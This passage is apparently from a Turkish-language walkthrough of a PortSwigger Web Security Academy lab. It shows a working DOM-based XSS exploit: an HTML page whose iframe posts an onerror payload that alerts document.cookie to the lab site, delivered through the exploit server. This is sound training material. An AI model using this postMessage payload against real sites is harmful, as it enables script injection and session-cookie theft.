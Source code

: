 ```
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/"
    </script>
</html>
```

Bu yapı sayesinde XSS oluştuğunu artık görebiliriz.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%2011.png)

Artık bu kısımdan sonra bizden isteneni yapalım. Oluşturduğumuz HTML sayfasının içeriğini PortSigger Academy Lab sayfasında exploit server ile çalıştırabiliriz. Öncelikle bu kısımdan exploit server’a gitmemiz gerekmektedir.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%2012.png)

Bu sayfaya geldikten sonra da hazırladığımız HTML sayfasını hedef kurban sisteme gönderebiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            target.contentWindow.postMessage(
                            "<img src=x onerror=alert(document.cookie)>",'*');
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/";
    </script>
</html>
```
